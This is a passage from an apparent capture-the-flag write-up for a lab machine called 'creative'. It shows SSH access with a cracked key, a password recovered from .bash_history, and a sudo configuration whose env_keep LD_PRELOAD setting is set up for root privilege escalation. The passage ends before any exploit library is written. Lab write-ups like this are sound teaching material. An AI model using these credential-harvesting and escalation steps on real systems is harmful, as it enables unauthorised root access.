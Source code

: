 Using the passphrase with the key, we are able to get a shell using SSH and read the user flag.

```console
$ ssh -i id_rsa saad@creative.thm                              
Enter passphrase for key 'id_rsa': 
Welcome to Ubuntu 20.04.5 LTS (GNU/Linux 5.4.0-135-generic x86_64)
...
Last login: Mon Nov  6 07:56:40 2023 from 192.168.8.102
saad@m4lware:~$ wc -c user.txt
33 user.txt
```

## Shell as root

### Discovering the Password

From the `.bash_history` file in the user's home, we find the password for the user.

```console
saad@m4lware:~$ cat .bash_history 
...
echo "saad:[REDACTED]" > creds.txt
...
```

### Abusing LD_PRELOAD

Using the password we have found for checking the `sudo` privileges, we see that we are able to run `/usr/bin/ping` as root.

```console
saad@m4lware:~$ sudo -l
[sudo] password for saad: 
Matching Defaults entries for saad on m4lware:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    env_keep+=LD_PRELOAD

User saad may run the following commands on m4lware:
    (root) /usr/bin/ping
```

There is not much we can do with `ping` but there is one interesting thing about the `sudo` configuration: the `env_keep` option on `LD_PRELOAD`.

```console
env_keep+=LD_PRELOAD
```

This allows us to set the `LD_PRELOAD` environment variable for the commands we run as `root` with `sudo`.

The `LD_PRELOAD` environment variable is used for specifying libraries to load before any other library for the processes.

We can use this to make the process we run as `root` with `sudo` to load a malicious library and run our code.
